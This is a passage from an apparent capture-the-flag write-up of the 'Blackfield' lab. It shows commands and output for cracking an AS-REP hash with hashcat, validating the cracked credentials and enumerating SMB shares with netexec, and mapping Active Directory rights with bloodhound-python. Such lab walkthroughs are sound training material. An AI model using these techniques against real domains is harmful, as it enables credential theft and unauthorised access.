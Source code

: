 Fortunately, the password was weak and we could crack it :DD

```bash
hashcat -m 18200 support.hash /usr/share/wordlists/rockyou.txt --show | tail -c 20
...f02:<REDACTED>
```

*NetExec* confirmed that the creds are valid. However, we still don’t have access to the *forensic* share.

```bash
netexec smb 10.129.229.17 -u "support" -p "<REDACTED>" --shares
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\support:<REDACTED> 
SMB         10.129.229.17   445    DC01             [*] Enumerated shares
SMB         10.129.229.17   445    DC01             Share           Permissions     Remark
SMB         10.129.229.17   445    DC01             -----           -----------     ------
SMB         10.129.229.17   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.17   445    DC01             C$                              Default share
SMB         10.129.229.17   445    DC01             forensic                        Forensic / Audit share.
SMB         10.129.229.17   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.17   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.229.17   445    DC01             profiles$       READ            
SMB         10.129.229.17   445    DC01             SYSVOL          READ            Logon server share
```

# Lateral Movement 1

There are not kerberoastable users. We can spray the obtained credentials or run [bloodhound-python](https://github.com/dirkjanm/BloodHound.py) and see how it goes. I will do the second.

```bash
bloodhound-python -u support -p '<REDACTED>' -c all -d blackfield.local -ns 10.129.229.17
```

The *Support* user has *ForceChangePassword* rights over *Audit2020*.

<img src="/assets/img/blackfield/Untitled 1.png" alt="Untitled 1.png" style="width:800px;">
